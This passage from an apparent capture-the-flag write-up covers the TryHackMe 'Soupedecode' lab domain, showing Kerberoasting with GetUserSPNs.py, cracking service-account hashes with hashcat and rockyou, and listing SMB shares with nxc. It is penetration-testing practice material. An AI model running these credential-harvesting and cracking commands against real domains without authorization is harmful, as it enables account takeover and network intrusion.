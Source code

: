 <figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Downloaded it on my own kali machine and got the user flag.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

***

### Access as service account 'file\_svc'

Next, I listed out all the service accounts present on the target machine and got 5 service accounts.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:'REDACTED' -dc-ip 10.201.28.223
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Requested ticket for all those account and got their Kerberos hashes.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:'REDACTED' -dc-ip 10.201.28.223 -request
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Saved all those hashes in a file and tried to crack all of them via hashcat.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ hashcat -m 13100 all-kerb-hash /usr/share/wordlists/rockyou.txt
```

Through hashcat I was able to crack hash of only 'file\_svc' service account.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

***

### Access as 'FileServer$' account and Root flag

Enumerating shares with 'file\_svc' account revealed that it had read access over 'backup' share on the machine.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.28.223 -u 'file_svc' -p 'REDACTED' --shares
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Connected to 'backup' share with smbclient and found a suspicious file named 'backup\_extract.txt' .
